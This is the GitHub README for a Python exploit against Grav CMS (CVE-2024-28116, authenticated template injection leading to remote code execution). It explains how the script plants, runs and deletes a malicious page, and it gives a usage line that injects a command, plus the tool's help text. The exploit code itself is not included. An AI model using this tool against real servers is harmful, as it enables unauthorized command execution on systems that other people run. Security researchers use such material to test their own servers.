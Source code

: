 # Grav CMS Remote Code Execution (Authenticated) - CVE-2024-28116

## Info

_This code is an adaptation from [`Grave` Github repository](https://github.com/akabe1/Graver) with some improvements based on [this video](https://ethicalhacking.uk/videos/CVE-2024-28116/)._

Exploit against `Grav CMS` (for versions below `1.7.45`) based on SSTI + RCE vulnerabilities, labeled as `CVE-2024-28116`. This script basically creates a page with the vulnerability, executes it and, finally, deletes the page after the execution.

## Usage
```shell-session
python3 Grav_CMS_RCE.py -t http://10.10.10.10 -u 'admin' -p 'S3cureP4ssw0rd' -x 'ping -c 1 10.10.10.9'
```

Help message:

```
$ python3 Grav_CMS_RCE.py -h

usage: Grav_CMS_RCE.py [-h] -t TARGET [-P PORT] -u USERNAME -p PASSWORD -x COMMAND [--no-delete-file] [--panel-route PANEL_ROUTE] [--no-banner] [--show-warnings]

Grav CMS RCE (Authenticated).

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL where Graver CMS is running. Example: http://10.10.10.10
  -P PORT, --port PORT  Port running Graver CMS. Default: 80
  -u USERNAME, --username USERNAME
                        Username to authenticate in Grav CMS
  -p PASSWORD, --password PASSWORD
                        Password for the user in Grav CMS.
  -x COMMAND, --command COMMAND
                        Command to inject/run.
  --no-delete-file      Do NOT delete the generated files. Useful to check command execution output.
  --panel-route PANEL_ROUTE
                        Admin Panel route in Grav CMS. Default: /admin
  --show-warnings       Show warnings (if there are).
```

If for some reason we do not want to delete the generated files, we can use `--no-delete-file` flag, visit the page the script indicates and read the command output.

## More info
More CVE-2024-28116/about this exploit info:
- Tested on `Grav CMS v1.7.44 - Admin 1.10.44`.
- [https://github.com/akabe1/Graver](https://github.com/akabe1/Graver)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-28116](https://nvd.nist.gov/vuln/detail/CVE-2024-28116)
- [https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0](https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0)
- [https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh](https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh)

## Disclaimer
The owner of this repository is not responsible for the usage of this software. It was made for educational purposes only.

## Licence
- MIT
